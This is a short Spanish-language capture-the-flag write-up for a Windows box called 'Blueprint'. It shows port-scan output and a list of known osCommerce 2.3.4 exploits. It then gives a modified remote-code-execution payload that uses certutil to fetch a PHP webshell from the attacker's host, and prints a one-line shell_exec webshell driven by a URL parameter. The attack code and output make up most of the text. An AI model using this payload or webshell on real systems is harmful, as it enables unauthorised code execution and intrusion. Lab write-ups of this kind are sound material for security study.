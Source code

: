 # Blueprint

## Initial Scan
```
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```
## Enum 
### HTTP 8080
Nada mas entrar vemos una carpeta de oscommerce2.3.4, buscamos vuln para la versión de osCommerce 
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                                                      | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                                    | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                                 | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                                  | php/webapps/46330.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                                       | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                                       | php/webapps/44374.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```
El último tiene bastante buena pinta, veamos si cumplimos los requisitos
Podemos acceder a :
```
http://10.10.190.54:8080/oscommerce-2.3.4/catalog/install/
```
Asi que podemos ejecutar el exploit, cambiando el payload por el siguiente:
```
payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.9.95.54:8000/php-cmd-exec-win.php shellwin.php & nslookup test IP " );'
payload += 'echo $var;/*'

```
La shell se sube sin problemas pero tenemos un pequeño problema
```
Warning: system() has been disabled for security reasons in C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\shell.php on line 1
```
Cambiamos la usual a una que no use system si no shell_exec
```
<?php echo shell_exec($_GET["cmd"]); ?>
```
Con esto ya tenemos RCE desde el navegador tocaria pasarlo a una rev shell para leer las flags
